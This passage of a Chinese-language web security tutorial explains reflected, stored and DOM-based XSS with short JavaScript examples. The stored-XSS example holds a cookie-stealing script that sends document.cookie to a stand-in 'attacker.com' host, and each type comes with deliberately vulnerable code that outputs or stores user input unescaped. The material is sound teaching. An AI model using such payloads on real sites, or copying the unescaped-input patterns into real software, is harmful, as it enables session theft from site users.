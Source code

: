 ### 2.3. XSS 的三种类型

#### 2.3.1. 反射型 XSS（非持久型）

- 反射型 XSS 是最简单的 XSS 攻击。
- 攻击者将恶意代码拼接在 `URL` 中，`服务器`接收到请求后，将**恶意代码"反射"回浏览器执行**。
	- 总结：**前端提交 → 后端处理 → 再反射回前端执行**

```javascript hl:1,4
// 示例 URL
http://example.com/search?q=<script>alert('XSS')</script>

// 易受攻击的服务器代码
app.get('/search', (req, res) => {
    res.send(`搜索结果：${req.query.q}`); // 直接输出用户输入
});
```

#### 2.3.2. 存储型 XSS（持久型）

- 存储型 XSS 是最危险的 XSS 攻击。
- 攻击者将恶意代码存储在目标服务器上（如数据库中），当**其他用户**浏览包含此恶意代码的页面时，就会执行攻击代码。
	- 影响范围大，因为**不止影响用户自己**

```javascript
// 典型场景：评论系统
// 攻击者提交的评论
const maliciousComment = `
    <script>
        // 窃取 cookie
        new Image().src = 'http://attacker.com/steal?cookie=' + document.cookie;
    </script>
`;

// 易受攻击的服务器代码
app.post('/comment', (req, res) => {
    db.comments.save(req.body.comment); // 直接存储用户输入
});
```

#### 2.3.3. DOM 型 XSS

- DOM 型 XSS 是一种特殊的 XSS
- 它的特点是攻击代码**不需要服务器参与**，而是通过修改页面 DOM 节点来完成攻击。
	- **前端自己消费自己**

```javascript
// 易受攻击的客户端代码
const hash = location.hash.substring(1);
document.getElementById('output').innerHTML = decodeURIComponent(hash);

// 攻击 URL
http://example.com#<img src="x" onerror="alert('XSS')">
```
